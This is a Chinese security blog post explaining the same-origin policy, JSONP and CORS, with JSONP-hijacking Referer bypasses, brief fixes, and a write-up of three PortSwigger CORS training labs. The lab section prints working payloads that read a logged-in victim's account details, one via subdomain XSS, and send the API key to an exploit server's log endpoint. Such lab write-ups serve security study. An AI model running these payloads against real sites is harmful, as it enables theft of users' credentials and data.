










<!DOCTYPE html>


  


<html class="theme-next pisces use-motion" lang>
<head><meta name="generator" content="Hexo 3.9.0">
  <meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
<meta name="theme-color" content="#222">


<meta http-equiv="Cache-Control" content="no-transform">
<meta http-equiv="Cache-Control" content="no-siteapp">


  
  
  <link href="/lib/fancybox/source/jquery.fancybox.css?v=2.1.5" rel="stylesheet" type="text/css">


<link href="/lib/font-awesome/css/font-awesome.min.css?v=4.6.2" rel="stylesheet" type="text/css">

<link href="/css/main.css?v=5.1.4" rel="stylesheet" type="text/css">


  <link rel="apple-touch-icon" sizes="180x180" href="/images/apple-touch-icon-next.png?v=5.1.4">


  <link rel="icon" type="image/png" sizes="32x32" href="/images/favicon-32x32-next.png?v=5.1.4">


  <link rel="icon" type="image/png" sizes="16x16" href="/images/favicon-16x16-next.png?v=5.1.4">


  <link rel="mask-icon" href="/images/logo.svg?v=5.1.4" color="#222">


  <meta name="keywords" content="Hexo, NexT">


<meta name="description" content="同源策略在说jsonp和cors之前，先说说同源策略 同源策略是浏览器的一个重要安全策略，如果两个 URL的协议、域名、端口都相同，则认为是同源，如MDN上的描述">
<meta property="og:type" content="article">
<meta property="og:title" content="JSONP和CORS">
<meta property="og:url" content="http://yoursite.com/2020/07/20/JSONP和CORS/index.html">
<meta property="og:site_name" content="Glarcy">
<meta property="og:description" content="同源策略在说jsonp和cors之前，先说说同源策略 同源策略是浏览器的一个重要安全策略，如果两个 URL的协议、域名、端口都相同，则认为是同源，如MDN上的描述">
<meta property="og:locale" content="default">
<meta property="og:image" content="http://yoursite.com/img/jsonp/1.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/2.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/3.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/4.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/5.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/6.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/7.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/8.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/9.jpg">
<meta property="og:image" content="http://yoursite.com/img/jsonp/10.jpg">
<meta property="og:updated_time" content="2022-04-13T04:33:43.781Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="JSONP和CORS">
<meta name="twitter:description" content="同源策略在说jsonp和cors之前，先说说同源策略 同源策略是浏览器的一个重要安全策略，如果两个 URL的协议、域名、端口都相同，则认为是同源，如MDN上的描述">
<meta name="twitter:image" content="http://yoursite.com/img/jsonp/1.jpg">


<script type="text/javascript" id="hexo.configurations">
  var NexT = window.NexT || {};
  var CONFIG = {
    root: '/',
    scheme: 'Pisces',
    version: '5.1.4',
    sidebar: {"position":"left","display":"post","offset":12,"b2t":false,"scrollpercent":false,"onmobile":false},
    fancybox: true,
    tabs: true,
    motion: {"enable":true,"async":false,"transition":{"post_block":"fadeIn","post_header":"slideDownIn","post_body":"slideDownIn","coll_header":"slideLeftIn","sidebar":"slideUpIn"}},
    duoshuo: {
      userId: '0',
      author: 'Author'
    },
    algolia: {
      applicationID: '',
      apiKey: '',
      indexName: '',
      hits: {"per_page":10},
      labels: {"input_placeholder":"Search for Posts","hits_empty":"We didn't find any results for the search: ${query}","hits_stats":"${hits} results found in ${time} ms"}
    }
  };
</script>


  <link rel="canonical" href="http://yoursite.com/2020/07/20/JSONP和CORS/">


  <title>JSONP和CORS | Glarcy</title>
  


</head>

<body itemscope itemtype="http://schema.org/WebPage" lang="default">

  
  
    
  

  <div class="container sidebar-position-left page-post-detail">
    <div class="headband"></div>

    <header id="header" class="header" itemscope itemtype="http://schema.org/WPHeader">
      <div class="header-inner"><div class="site-brand-wrapper">
  <div class="site-meta ">
    

    <div class="custom-logo-site-title">
      <a href="/" class="brand" rel="start">
        <span class="logo-line-before"><i></i></span>
        <span class="site-title">Glarcy</span>
        <span class="logo-line-after"><i></i></span>
      </a>
    </div>
      
        <p class="site-subtitle"></p>
      
  </div>

  <div class="site-nav-toggle">
    <button>
      <span class="btn-bar"></span>
      <span class="btn-bar"></span>
      <span class="btn-bar"></span>
    </button>
  </div>
</div>

<nav class="site-nav">
  

  
    <ul id="menu" class="menu">
      
        
        <li class="menu-item menu-item-首页">
          <a href="/" rel="section">
            
              <i class="menu-item-icon fa fa-fw fa-home"></i> <br>
            
            首页
          </a>
        </li>
      
        
        <li class="menu-item menu-item-关于">
          <a href="/about/" rel="section">
            
              <i class="menu-item-icon fa fa-fw fa-user"></i> <br>
            
            关于
          </a>
        </li>
      
        
        <li class="menu-item menu-item-标签">
          <a href="/tags/" rel="section">
            
              <i class="menu-item-icon fa fa-fw fa-tags"></i> <br>
            
            标签
          </a>
        </li>
      
        
        <li class="menu-item menu-item-分类">
          <a href="/categories/" rel="section">
            
              <i class="menu-item-icon fa fa-fw fa-th"></i> <br>
            
            分类
          </a>
        </li>
      
        
        <li class="menu-item menu-item-归档">
          <a href="/archives/" rel="section">
            
              <i class="menu-item-icon fa fa-fw fa-archive"></i> <br>
            
            归档
          </a>
        </li>
      

      
    </ul>
  

  
</nav>


 </div>
    </header>

    <main id="main" class="main">
      <div class="main-inner">
        <div class="content-wrap">
          <div id="content" class="content">
            

  <div id="posts" class="posts-expand">
    

  

  
  
  

  <article class="post post-type-normal" itemscope itemtype="http://schema.org/Article">
  
  
  
  <div class="post-block">
    <link itemprop="mainEntityOfPage" href="http://yoursite.com/2020/07/20/JSONP和CORS/">

    <span hidden itemprop="author" itemscope itemtype="http://schema.org/Person">
      <meta itemprop="name" content="Glarcy">
      <meta itemprop="description" content>
      <meta itemprop="image" content="/images/avatar.jpg">
    </span>

    <span hidden itemprop="publisher" itemscope itemtype="http://schema.org/Organization">
      <meta itemprop="name" content="Glarcy">
    </span>

    
      <header class="post-header">

        
        
          <h1 class="post-title" itemprop="name headline">JSONP和CORS</h1>
        

        <div class="post-meta">
          <span class="post-time">
            
              <span class="post-meta-item-icon">
                <i class="fa fa-calendar-o"></i>
              </span>
              
                <span class="post-meta-item-text">Posted on</span>
              
              <time title="Post created" itemprop="dateCreated datePublished" datetime="2020-07-20T20:31:40+08:00">
                2020-07-20
              </time>
            

            

            
          </span>

          

          
            
          

          
          

          

          

          

        </div>
      </header>
    

    
    
    
    <div class="post-body" itemprop="articleBody">

      
      

      
        <h3 id="同源策略"><a href="#同源策略" class="headerlink" title="同源策略"></a>同源策略</h3><p>在说jsonp和cors之前，先说说同源策略</p>
<p>同源策略是浏览器的一个重要安全策略，如果两个 URL的协议、域名、端口都相同，则认为是同源，如MDN上的描述</p>
<a id="more"></a>

<p></p>
<h3 id="JSONP"><a href="#JSONP" class="headerlink" title="JSONP"></a>JSONP</h3><p>jsonp是实现跨域的一种方法，它利用了script、iframe、img等标签的src属性不受同源策略约束的特性来跨域获取数据</p>
<p>jsonp包含两部分，其中网站A需要构造一个回调函数处理数据，并将回调函数名传递给网站B</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">script</span>&gt;</span></span><br><span class="line">    function jsonpCallback(response) &#123;</span><br><span class="line">        console.log(response);</span><br><span class="line">    &#125;</span><br><span class="line"><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;<span class="name">script</span> <span class="attr">src</span>=<span class="string">"http://127.0.0.1:5000/jsonp?callback=jsonpCallback"</span>&gt;</span><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br></pre></td></tr></table></figure>

<p>网站B将数据用回调函数包住json数据返回</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">func_name = request.args.get(<span class="string">'callback'</span>)</span><br><span class="line">json_str = &#123;<span class="string">"id"</span>:<span class="number">1</span>,<span class="string">"name"</span>:<span class="string">"glarcy"</span>,<span class="string">"email"</span>:<span class="string">"glarcy@test.com"</span>&#125;</span><br><span class="line">msg = func_name + <span class="string">"("</span> + json.dumps(json_str) + <span class="string">")"</span></span><br><span class="line"><span class="keyword">return</span> msg</span><br></pre></td></tr></table></figure>

<h4 id="jsonp劫持"><a href="#jsonp劫持" class="headerlink" title="jsonp劫持"></a>jsonp劫持</h4><p>如果在上述过程中，网站B对jsonp请求没有进行安全检查就直接返回数据，则网站B便存在jsonp漏洞，攻击者利用jsonp漏洞能够获取用户在网站B上的数据，是由于没有对jsonp请求的来源进行校验和过滤导致的安全问题</p>
<h4 id="referer绕过"><a href="#referer绕过" class="headerlink" title="referer绕过"></a>referer绕过</h4><p>当目标服务端校验请求的Referer字段时，此时可以根据实际情况进行绕过</p>
<p>我们使用script标签访问时，可以看到请求是带有referer字段的</p>
<p></p>
<h5 id="使用iframe标签-javascript伪协议"><a href="#使用iframe标签-javascript伪协议" class="headerlink" title="使用iframe标签+javascript伪协议"></a>使用iframe标签+javascript伪协议</h5><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">&lt;iframe src=&quot;javascript:&apos;&lt;script&gt;function jsonpCallback(response) &#123;console.log(response);&#125;&lt;/script&gt;&lt;script src=http://127.0.0.1:5000/jsonp?callback=jsonpCallback&gt;&lt;/script&gt;&apos;&quot;&gt;&lt;/iframe&gt;</span><br></pre></td></tr></table></figure>

<h5 id="meta标签"><a href="#meta标签" class="headerlink" title="meta标签"></a>meta标签</h5><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">&lt;meta name=&quot;referrer&quot; content=&quot;never&quot;&gt;</span><br></pre></td></tr></table></figure>

<p></p>
<h5 id="https-gt-http"><a href="#https-gt-http" class="headerlink" title="https -&gt; http"></a>https -&gt; http</h5><p>https转到http会返回一个空的referer</p>
<h4 id="修复"><a href="#修复" class="headerlink" title="修复"></a>修复</h4><p>限制referer</p>
<p>使用token</p>
<p>严格过滤 callback 函数名及 json里数据的输出</p>
<h3 id="CORS"><a href="#CORS" class="headerlink" title="CORS"></a>CORS</h3><p>CORS，跨域资源共享。网站由于自身业务的需求，需要实现一些跨域的功能让不同域的页面之间能够相互访问。CORS 是 H5 提供的一种机制，WEB 应用程序可以通过在 HTTP 报文中增加特定字段来告诉浏览器，哪些不同来源的服务器有权访问本站资源</p>
<p>浏览器将CORS请求分成两类：简单请求（simple request）和 非简单请求（not-so-simple request）。只要同时满足以下两个条件就属于简单请求否则属于非简单请求：</p>
<p>（1）请求方法是以下三种之一：</p>
<ul>
<li><p>HEAD</p>
</li>
<li><p>GET</p>
</li>
<li><p>POST</p>
</li>
</ul>
<p>（2）HTTP的头信息不超出这几种字段</p>
<ul>
<li><p>Accept</p>
</li>
<li><p>Accept-Language</p>
</li>
<li><p>Content-Language</p>
</li>
<li><p>Lat-Event-ID</p>
</li>
<li><p>Content-Type：application/x-www-form-urlencoded、multipart/form-data、text/plain</p>
</li>
</ul>
<p>浏览器对简单请求和非简单请求的处理机制不一样，对于简单请求，浏览器就会立刻发送这个请求。</p>
<p>与前述简单请求不同，非简单请求须首先使用option方法发起一个预检请求到服务器，以获知服务器是否允许该实际请求。只有获得了肯定响应，浏览器才会正式发出 XMLHttpRequest 请求否则就报错</p>
<p>与CORS相关的字段：</p>
<ul>
<li><p>Access-Control-Allow-Origin：限制请求的源域</p>
</li>
<li><p>Access-Control-Allow-Credentials：表示服务器是否允许浏览器将cookie 包含在请求中，否则就不添加此字段。但需要注意的是，如果要发送cookie，Access-Control-Allow-Origin就不能设为星号，必须明确指定与请求网页一致的域名，同时Cookie依然遵循同源策略，且前端需要在ajax请求中打开<code>withCredentials</code>属性</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">var xhr = new XMLHttpRequest();</span><br><span class="line">xhr.withCredentials = true;</span><br></pre></td></tr></table></figure>
</li>
<li><p>Access-Control-Allow-Methods：允许使用的请求方法</p>
</li>
</ul>
<h4 id="CORS-跨域漏洞"><a href="#CORS-跨域漏洞" class="headerlink" title="CORS 跨域漏洞"></a>CORS 跨域漏洞</h4><p>成因：由于配置不当，Origin源未严格控制，从而造成跨域问题</p>
<p>攻击流程：</p>
<ul>
<li>假设用户登陆一个含有 CORS 配置网站 vuln.com，同时又访问了攻击者提供的一个链接 evil.com</li>
<li>evil.com 的网站向 vuln.com 这个网站发起请求获取敏感数据，浏览器能否接收信息取决于 vuln.com的配置</li>
<li>如果 vuln.com 配置了 Access-Control-Allow-Origin头且为预期，那么允许接收，否则浏览器会因为同源策略而不接收</li>
</ul>
<p>靶场连接：<a href="https://portswigger.net/web-security/cors" target="_blank" rel="noopener">https://portswigger.net/web-security/cors</a></p>
<h5 id="可任意修改origin"><a href="#可任意修改origin" class="headerlink" title="可任意修改origin"></a>可任意修改origin</h5><p><strong>实验1 CORS vulnerability with basic origin reflection</strong></p>
<p>个人账户页面存在API key，目标是获取管理员的API key</p>
<p></p>
<p>查看源代码，发现API key是通过ajax传回来的</p>
<p></p>
<p>直接访问接口，修改origin看看存不存在cors漏洞，请求成功，说明存在</p>
<p></p>
<p>因此我们可以部署一个恶意脚本在我们的网站上，并将该网址链接发送给管理员，只要管理员访问了我们的链接，我们即可获取到管理员的API key</p>
<p>go to exploit server，输入如下恶意脚本</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">script</span>&gt;</span></span><br><span class="line">    var xhr = new XMLHttpRequest();</span><br><span class="line">    xhr.onload = cors;</span><br><span class="line">    xhr.open('get','https://ac5b1fd11efbeaf2c0000fd0007e005b.web-security-academy.net/accountDetails',true);</span><br><span class="line">    xhr.withCredentials = true;</span><br><span class="line">    xhr.send();</span><br><span class="line"></span><br><span class="line">    function cors() &#123;</span><br><span class="line">        location='/log?key='+this.responseText;</span><br><span class="line">    &#125;;</span><br><span class="line"><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br></pre></td></tr></table></figure>

<p>获取密钥</p>
<p></p>
<h5 id="可修改origin为null"><a href="#可修改origin为null" class="headerlink" title="可修改origin为null"></a>可修改origin为null</h5><p><strong>实验2 CORS vulnerability with trusted null origin</strong></p>
<p>在该实验中，origin头不能随意设置了，但是仍可以设置为null</p>
<p></p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">iframe</span> <span class="attr">sandbox</span>=<span class="string">"allow-scripts allow-top-navigation allow-forms"</span> <span class="attr">src</span>=<span class="string">"data:text/html,&lt;script&gt;</span></span></span><br><span class="line"><span class="tag"><span class="string">    var xhr = new XMLHttpRequest();</span></span></span><br><span class="line"><span class="tag"><span class="string">    xhr.onload = cors;</span></span></span><br><span class="line"><span class="tag"><span class="string">    xhr.open('get','https://acef1fc41f49df5dc0b190cb008d00fa.web-security-academy.net/accountDetails',true);</span></span></span><br><span class="line"><span class="tag"><span class="string">    xhr.withCredentials = true;</span></span></span><br><span class="line"><span class="tag"><span class="string">    xhr.send();</span></span></span><br><span class="line"><span class="tag"><span class="string">    function cors() &#123;</span></span></span><br><span class="line"><span class="tag"><span class="string">        location='https://exploit-acd81f651fb3df24c0b590d7017800bb.web-security-academy.net/log?key=' + this.responseText;</span></span></span><br><span class="line"><span class="tag"><span class="string">    &#125;;</span></span></span><br><span class="line"><span class="tag"><span class="string">&lt;/script&gt;"</span>&gt;</span><span class="tag">&lt;/<span class="name">iframe</span>&gt;</span></span><br></pre></td></tr></table></figure>

<h5 id="信任子域"><a href="#信任子域" class="headerlink" title="信任子域"></a>信任子域</h5><p><strong>实验3 CORS vulnerability with trusted insecure protocols</strong></p>
<p>这个实验不能设置null了，但它信任子域，设置为子域仍能访问敏感数据</p>
<p></p>
<p>点击商品查看库存，发现productId存在xss，并且其属于子域</p>
<p></p>
<p>因此可通过 子域触发xss–访问主域敏感数据–保存数据</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">script</span>&gt;</span></span><br><span class="line"><span class="xml">    document.location="http://stock.ac751ff61f952636c086de14006000ea.web-security-academy.net/?productId=<span class="tag">&lt;<span class="name">script</span>&gt;</span>var xhr = new XMLHttpRequest(); xhr.onload = cors; xhr.open('get','https://ac751ff61f952636c086de14006000ea.web-security-academy.net/accountDetails',true); xhr.withCredentials = true;xhr.send();function cors() &#123;location='https://exploit-ac0d1fb81f14261ac090de2c0161008e.web-security-academy.net/log?key='%2bthis.responseText; &#125;;%3c/script&gt;&amp;storeId=1"</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br></pre></td></tr></table></figure>


      
    </div>
    
    
    

    

    

    

    <footer class="post-footer">
      

      
      
      

      
        <div class="post-nav">
          <div class="post-nav-next post-nav-item">
            
              <a href="/2020/07/19/文件包含漏洞总结/" rel="next" title="文件包含漏洞总结">
                <i class="fa fa-chevron-left"></i> 文件包含漏洞总结
              </a>
            
          </div>

          <span class="post-nav-divider"></span>

          <div class="post-nav-prev post-nav-item">
            
              <a href="/2021/01/26/安装tensorflow-gpu记录/" rel="prev" title="安装tensorflow-gpu记录">
                安装tensorflow-gpu记录 <i class="fa fa-chevron-right"></i>
              </a>
            
          </div>
        </div>
      

      
      
    </footer>
  </div>
  
  
  
  </article>


    <div class="post-spread">
      
    </div>
  </div>


          </div>
          


          

  


        </div>
        
          
  
  <div class="sidebar-toggle">
    <div class="sidebar-toggle-line-wrap">
      <span class="sidebar-toggle-line sidebar-toggle-line-first"></span>
      <span class="sidebar-toggle-line sidebar-toggle-line-middle"></span>
      <span class="sidebar-toggle-line sidebar-toggle-line-last"></span>
    </div>
  </div>

  <aside id="sidebar" class="sidebar">
    
    <div class="sidebar-inner">

      

      
        <ul class="sidebar-nav motion-element">
          <li class="sidebar-nav-toc sidebar-nav-active" data-target="post-toc-wrap">
            Table of Contents
          </li>
          <li class="sidebar-nav-overview" data-target="site-overview-wrap">
            Overview
          </li>
        </ul>
      

      <section class="site-overview-wrap sidebar-panel">
        <div class="site-overview">
          <div class="site-author motion-element" itemprop="author" itemscope itemtype="http://schema.org/Person">
            
              
            
              <p class="site-author-name" itemprop="name">Glarcy</p>
              <p class="site-description motion-element" itemprop="description">web小菜鸡</p>
          </div>

          <nav class="site-state motion-element">

            
              <div class="site-state-item site-state-posts">
              
                <a href="/archives">
              
                  <span class="site-state-item-count">43</span>
                  <span class="site-state-item-name">posts</span>
                </a>
              </div>
            

            

            
              
              
              <div class="site-state-item site-state-tags">
                <a href="/tags/index.html">
                  <span class="site-state-item-count">5</span>
                  <span class="site-state-item-name">tags</span>
                </a>
              </div>
            

          </nav>

          

          

          
          

          
          
            <div class="links-of-blogroll motion-element links-of-blogroll-block">
              <div class="links-of-blogroll-title">
                <i class="fa  fa-fw fa-link"></i>
                Links
              </div>
              <ul class="links-of-blogroll-list">
                
                  <li class="links-of-blogroll-item">
                    <a href="https://aluvion.github.io/" title="Twings" target="_blank">Twings</a>
                  </li>
                
                  <li class="links-of-blogroll-item">
                    <a href="https://xi4or0uji.github.io/" title="Xi4or0uji" target="_blank">Xi4or0uji</a>
                  </li>
                
                  <li class="links-of-blogroll-item">
                    <a href="https://23r3f.github.io/" title="23R3F" target="_blank">23R3F</a>
                  </li>
                
                  <li class="links-of-blogroll-item">
                    <a href="https://zszcr.github.io/" title="zs0zrc" target="_blank">zs0zrc</a>
                  </li>
                
              </ul>
            </div>
          

          

        </div>
      </section>

      
      <!--noindex-->
        <section class="post-toc-wrap motion-element sidebar-panel sidebar-panel-active">
          <div class="post-toc">

            
              
            

            
              <div class="post-toc-content"><ol class="nav"><li class="nav-item nav-level-3"><a class="nav-link" href="#同源策略"><span class="nav-number">1.</span> <span class="nav-text">同源策略</span></a></li><li class="nav-item nav-level-3"><a class="nav-link" href="#JSONP"><span class="nav-number">2.</span> <span class="nav-text">JSONP</span></a><ol class="nav-child"><li class="nav-item nav-level-4"><a class="nav-link" href="#jsonp劫持"><span class="nav-number">2.1.</span> <span class="nav-text">jsonp劫持</span></a></li><li class="nav-item nav-level-4"><a class="nav-link" href="#referer绕过"><span class="nav-number">2.2.</span> <span class="nav-text">referer绕过</span></a><ol class="nav-child"><li class="nav-item nav-level-5"><a class="nav-link" href="#使用iframe标签-javascript伪协议"><span class="nav-number">2.2.1.</span> <span class="nav-text">使用iframe标签+javascript伪协议</span></a></li><li class="nav-item nav-level-5"><a class="nav-link" href="#meta标签"><span class="nav-number">2.2.2.</span> <span class="nav-text">meta标签</span></a></li><li class="nav-item nav-level-5"><a class="nav-link" href="#https-gt-http"><span class="nav-number">2.2.3.</span> <span class="nav-text">https -&gt; http</span></a></li></ol></li><li class="nav-item nav-level-4"><a class="nav-link" href="#修复"><span class="nav-number">2.3.</span> <span class="nav-text">修复</span></a></li></ol></li><li class="nav-item nav-level-3"><a class="nav-link" href="#CORS"><span class="nav-number">3.</span> <span class="nav-text">CORS</span></a><ol class="nav-child"><li class="nav-item nav-level-4"><a class="nav-link" href="#CORS-跨域漏洞"><span class="nav-number">3.1.</span> <span class="nav-text">CORS 跨域漏洞</span></a><ol class="nav-child"><li class="nav-item nav-level-5"><a class="nav-link" href="#可任意修改origin"><span 